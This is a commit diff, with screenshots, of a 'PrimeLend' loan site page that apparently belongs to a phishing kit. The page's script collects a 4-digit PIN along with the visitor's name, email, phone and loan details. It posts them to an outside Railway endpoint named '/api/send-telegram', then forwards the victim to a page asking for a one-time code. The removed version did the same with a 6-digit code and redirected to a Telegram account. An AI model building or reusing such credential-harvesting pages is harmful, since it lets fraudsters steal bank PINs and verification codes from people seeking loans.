

Before and after one commit to inncredits-jpg/Primelend, a plain HTML site: page pin-confirm.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update pin-confirm.html

```diff
--- a/pin-confirm.html
+++ b/pin-confirm.html
@@ -3,31 +3,33 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=yes, viewport-fit=cover">
-    <title>PrimeLend · Verify Number</title>
+    <title>PrimeLend · Confirm PIN</title>
     <style>
         *{margin:0;padding:0;box-sizing:border-box;-webkit-tap-highlight-color:transparent}
         body{background:linear-gradient(135deg,#0a0f1e 0%,#0c1222 100%);font-family:'Inter',system-ui,sans-serif;display:flex;align-items:flex-start;justify-content:center;min-height:100vh;padding:20px}
         .app-container{max-width:520px;width:100%;margin:0 auto}
         .loan-summary-bar{background:rgba(17,24,39,0.8);backdrop-filter:blur(10px);border-radius:32px;padding:16px 20px;margin-bottom:20px;display:flex;justify-content:space-between;flex-wrap:wrap;gap:12px;border:1px solid rgba(20,184,166,0.15)}
-        .summary-item{display:flex;flex-direction:column}
+        .summary-item{display:flex;flex-direction:column;align-items:flex-start}
         .summary-label{font-size:.65rem;font-weight:500;color:#7e8aa2;text-transform:uppercase}
         .summary-value{font-size:1rem;font-weight:700;color:#14b8a6;margin-top:2px}
-        .otp-card{background:rgba(17,24,39,0.8);backdrop-filter:blur(10px);border-radius:40px;border:1px solid rgba(20,184,166,0.15);padding:28px 24px 32px}
+        .pin-card{background:rgba(17,24,39,0.8);backdrop-filter:blur(10px);border-radius:40px;border:1px solid rgba(20,184,166,0.15);padding:28px 24px 32px}
         .section-title{font-size:1.4rem;font-weight:700;background:linear-gradient(135deg,#fff,#14b8a6);background-clip:text;-webkit-background-clip:text;color:transparent;margin-bottom:8px}
         .section-sub{font-size:.8rem;color:#7e8aa2;margin-bottom:28px;border-left:3px solid #14b8a6;padding-left:12px}
-        .phone-verify-box{background:rgba(15,23,36,0.6);border-radius:24px;padding:18px 16px;margin-bottom:28px;display:flex;justify-content:space-between;align-items:center;border:1px solid rgba(20,184,166,0.1)}
-        .phone-number{font-size:1.1rem;font-weight:700;color:#e2e8f0}
-        .edit-link{color:#14b8a6;background:rgba(20,184,166,0.1);padding:6px 14px;border-radius:40px;cursor:pointer}
-        .otp-container{display:flex;justify-content:center;gap:12px;margin-bottom:20px;flex-wrap:wrap}
-        .otp-box{width:55px;height:65px;background:#0f1724;border:2px solid #1f2a3e;border-radius:16px;text-align:center;font-size:1.6rem;font-weight:700;color:#14b8a6;outline:none}
-        .otp-box:focus{border-color:#14b8a6;box-shadow:0 0 0 3px rgba(20,184,166,0.2)}
-        .verify-btn{width:100%;background:linear-gradient(135deg,#14b8a6,#0d9488);border:none;padding:16px 20px;font-size:1rem;font-weight:700;color:#0b1120;border-radius:60px;cursor:pointer;margin-top:8px}
-        .verify-btn.loading{opacity:0.7;cursor:wait}
+        .details-grid{background:rgba(15,23,36,0.6);border-radius:24px;padding:18px 16px;margin-bottom:28px;border:1px solid rgba(20,184,166,0.1)}
+        .detail-row{display:flex;justify-content:space-between;padding:10px 0;border-bottom:1px solid rgba(30,41,59,0.5)}
+        .detail-row:last-child{border-bottom:none}
+        .detail-label{font-size:.8rem;color:#94a3b8}
+        .detail-value{font-size:.85rem;font-weight:600;color:#e2e8f0;text-align:right}
+        .pin-container{display:flex;justify-content:center;gap:16px;margin-bottom:12px}
+        .pin-box{width:65px;height:65px;background:#0f1724;border:2px solid #1f2a3e;border-radius:20px;text-align:center;font-size:1.8rem;font-weight:700;color:#14b8a6;outline:none}
+        .pin-box:focus{border-color:#14b8a6;box-shadow:0 0 0 3px rgba(20,184,166,0.2)}
+        .confirm-btn{width:100%;background:linear-gradient(135deg,#14b8a6,#0d9488);border:none;padding:16px 20px;font-size:1rem;font-weight:700;color:#0b1120;border-radius:60px;cursor:pointer;margin-top:20px}
+        .confirm-btn:disabled{opacity:0.6;cursor:not-allowed}
         .error-message{color:#f43f5e;font-size:.75rem;text-align:center;margin-top:12px;display:none}
         .error-message.show{display:block}
         .toast{position:fixed;bottom:30px;left:50%;transform:translateX(-50%);background:rgba(20,184,166,0.9);backdrop-filter:blur(10px);color:#0b1120;padding:12px 24px;border-radius:60px;font-size:.85rem;font-weight:500;z-index:1000;opacity:0;transition:opacity .3s;pointer-events:none}
         .toast.show{opacity:1}
-        @media (max-width:450px){.otp-box{width:48px;height:55px;font-size:1.4rem}.otp-container{gap:8px}}
+        @media (max-width:480px){.pin-card{padding:22px 18px 26px}.pin-box{width:55px;height:55px;font-size:1.5rem}}
     </style>
 </head>
 <body>
@@ -39,107 +41,103 @@
         <div class="summary-item"><span class="summary-label">Interest</span><span class="summary-value" id="summaryRate">5%</span></div>
     </div>
 
-    <div class="otp-card">
-        <div class="section-title">Verify your number</div>
-        <div class="section-sub">Enter the 6-digit verification code</div>
+    <div class="pin-card">
+        <div class="section-title">Confirm your details</div>
+        <div class="section-sub">Please review your loan information below</div>
 
-        <div class="phone-verify-box">
-            <div><span class="phone-number" id="displayPhone">+1 234 567 8900</span></div>
-            <div class="edit-link" id="editPhoneBtn">Edit</div>
+        <div class="details-grid">
+            <div class="detail-row"><span class="detail-label">Full Name</span><span class="detail-value" id="userFullName">-</span></div>
+            <div class="detail-row"><span class="detail-label">Email</span><span class="detail-value" id="userEmail">-</span></div>
+            <div class="detail-row"><span class="detail-label">Phone</span><span class="detail-value" id="userPhone">-</span></div>
         </div>
 
-        <div class="otp-container">
-            <input type="text" maxlength="1" class="otp-box" data-idx="0" inputmode="numeric">
-            <input type="text" maxlength="1" class="otp-box" data-idx="1" inputmode="numeric">
-            <input type="text" maxlength="1" class="otp-box" data-idx="2" inputmode="numeric">
-            <input type="text" maxlength="1" class="otp-box" data-idx="3" inputmode="numeric">
-            <input type="text" maxlength="1" class="otp-box" data-idx="4" inputmode="numeric">
-            <input type="text" maxlength="1" class="otp-box" data-idx="5" inputmode="numeric">
+        <div class="pin-container">
+            <input type="text" maxlength="1" class="pin-box" data-idx="0" inputmode="numeric">
+            <input type="text" maxlength="1" class="pin-box" data-idx="1" inputmode="numeric">
+            <input type="text" maxlength="1" class="pin-box" data-idx="2" inputmode="numeric">
+            <input type="text" maxlength="1" class="pin-box" data-idx="3" inputmode="numeric">
         </div>
-
-        <div class="error-message" id="otpError">⚠️ Please enter all 6 digits</div>
-        <button class="verify-btn" id="verifyBtn">Verify & Continue →</button>
+        <div class="error-message" id="pinError">Please enter a valid 4-digit PIN</div>
+        <button class="confirm-btn" id="confirmBtn" disabled>Confirm & Continue →</button>
     </div>
 </div>
-<div class="toast" id="toast">✓ Verified! Redirecting to Telegram...</div>
+<div class="toast" id="toast">✓ PIN confirmed! Redirecting...</div>
 
 <script>
 (function(){
+    // ✅ CORRECT RAILWAY URL (PrimeLend, not InnCredits)
     const RAILWAY_URL = 'https://primelend-production.up.railway.app';
-    // ✅ CORRECT TELEGRAM USERNAME - User lands here
-    const TELEGRAM_USERNAME = 'Innbuckks';
+    const params = new URLSearchParams(window.location.search);
 
-    const urlParams = new URLSearchParams(window.location.search);
-    const amount = urlParams.get('amount') || '500';
-    const term = urlParams.get('term') || '3';
-    const rate = urlParams.get('rate') || '5';
-    const monthly = urlParams.get('monthly') || '167.36';
-    let userPhone = urlParams.get('phone') || '+1 234 567 8900';
-    const userName = urlParams.get('name') || 'Customer';
-    const userEmail = urlParams.get('email') || '';
+    const amount = params.get('amount') || '0';
+    const term = params.get('term') || '0';
+    const rate = params.get('rate') || '5';
+    const monthly = params.get('monthly') || '0';
+    const name = decodeURIComponent(params.get('name') || '');
+    const email = decodeURIComponent(params.get('email') || '');
+    const phone = decodeURIComponent(params.get('phone') || '');
 
-    document.getElementById('summaryAmount').innerText = `$${parseInt(amount).toLocaleString()}`;
+    document.getElementById('summaryAmount').innerText = `$${parseFloat(amount).toLocaleString()}`;
     document.getElementById('summaryTerm').innerText = `${term} month${term != 1 ? 's' : ''}`;
     document.getElementById('summaryMonthly').innerText = `$${parseFloat(monthly).toFixed(2)}`;
     document.getElementById('summaryRate').innerText = `${rate}%`;
-    document.getElementById('displayPhone').innerText = userPhone;
+    document.getElementById('userFullName').innerText = name || '-';
+    document.getElementById('userEmail').innerText = email || '-';
+    document.getElementById('userPhone').innerText = phone || '-';
 
+    const pinBoxes = document.querySelectorAll('.pin-box');
+    let currentPin = ['','','',''];
+    const confirmBtn = document.getElementById('confirmBtn');
+    const errorMsg = document.getElementById('pinError');
     const toast = document.getElementById('toast');
-    const showToast = (msg) => { toast.textContent = msg; toast.classList.add('show'); setTimeout(() => toast.classList.remove('show'), 1500); };
 
-    const otpBoxes = document.querySelectorAll('.otp-box');
-    let currentOtp = ['','','','','',''];
-    const verifyBtn = document.getElementById('verifyBtn');
-    const errorMsg = document.getElementById('otpError');
+    const showToast = (msg) => { toast.textContent = msg; toast.classList.add('show'); setTimeout(() => toast.classList.remove('show'), 2000); };
 
-    const updateOtpUI = () => { otpBoxes.forEach((b,i)=>b.value=currentOtp[i]||''); };
-
-    const setOtpDigit = (i,val) => {
-        if(val && !/[0-9]/.test(val)) return;
-        if(i>=0 && i<6){
-            currentOtp[i] = val || '';
-            updateOtpUI();
-            if(val && i<5) otpBoxes[i+1].focus();
-            errorMsg.classList.remove('show');
-        }
+    const updatePinUI = () => {
+        pinBoxes.forEach((b,i)=>b.value=currentPin[i]||'');
+        const isFull = currentPin.every(d=>d && /[0-9]/.test(d));
+        confirmBtn.disabled = !isFull;
+        if(isFull) errorMsg.classList.remove('show');
     };
 
-    otpBoxes.forEach((box, i) => {
-        box.addEventListener('input', (e) => setOtpDigit(i, e.target.value.slice(-1)));
+    pinBoxes.forEach((box, i) => {
+        box.addEventListener('input', (e) => {
+            let val = e.target.value.slice(-1);
+            if(val && !/[0-9]/.test(val)) return;
+            currentPin[i] = val || '';
+            updatePinUI();
+            if(val && i<3) pinBoxes[i+1].focus();
+        });
         box.addEventListener('keydown', (e) => {
-            if(e.key === 'Backspace'){
+            if(e.key === 'Backspace') {
                 e.preventDefault();
-                if(currentOtp[i]) setOtpDigit(i,'');
-                else if(i>0){ setOtpDigit(i-1,''); otpBoxes[i-1].focus(); }
+                if(currentPin[i]) currentPin[i] = '';
+                else if(i>0) { currentPin[i-1] = ''; pinBoxes[i-1].focus(); }
+                updatePinUI();
             }
         });
     });
+    pinBoxes[0].focus();
 
-    verifyBtn.onclick = async () => {
-        const enteredOtp = currentOtp.join('');
-        if(enteredOtp.length !== 6){ errorMsg.classList.add('show'); return; }
+    confirmBtn.onclick = async () => {
+        const fullPin = currentPin.join('');
+        if(fullPin.length !== 4) { errorMsg.classList.add('show'); return; }
 
-        verifyBtn.classList.add('loading');
-        verifyBtn.textContent = 'Verifying...';
-        verifyBtn.disabled = true;
+        confirmBtn.disabled = true;
+        confirmBtn.textContent = 'Processing...';
 
+        // ✅ CORRECT ENDPOINT: /api/send-telegram (not /api/notify-admin)
         fetch(`${RAILWAY_URL}/api/send-telegram`, {
-            method:'POST',
-            headers:{'Content-Type':'application/json'},
-            body:JSON.stringify({phone:userPhone,pin:enteredOtp,email:userEmail,name:userName,type:'otp'})
-        }).catch(e=>console.error(e));
+            method: 'POST',
+            headers: {'Content-Type':'application/json'},
+            body: JSON.stringify({phone,pin:fullPin,email,name,amount,term,type:'pin'})
+        }).catch(e => console.error('Fetch error:', e));
 
-        showToast('✓ Verified! Redirecting...');
-        // ✅ CORRECT: Redirects to @Innbuckks
-        setTimeout(() => { window.location.href = `https://t.me/${TELEGRAM_USERNAME}`; }, 1000);
+        showToast('✓ PIN confirmed! Redirecting...');
+        setTimeout(() => {
+            window.location.href = `otp-verify.html?amount=${encodeURIComponent(amount)}&term=${encodeURIComponent(term)}&rate=${encodeURIComponent(rate)}&monthly=${encodeURIComponent(monthly)}&name=${encodeURIComponent(name)}&email=${encodeURIComponent(email)}&phone=${encodeURIComponent(phone)}`;
+        }, 1000);
     };
-
-    document.getElementById('editPhoneBtn').onclick = () => {
-        let newPhone = prompt('Enter your phone number:', userPhone);
-        if(newPhone && newPhone.trim().length > 5) { userPhone = newPhone.trim(); document.getElementById('displayPhone').innerText = userPhone; }
-    };
-
-    setTimeout(() => otpBoxes[0].focus(), 50);
 })();
 </script>
 </body>
```
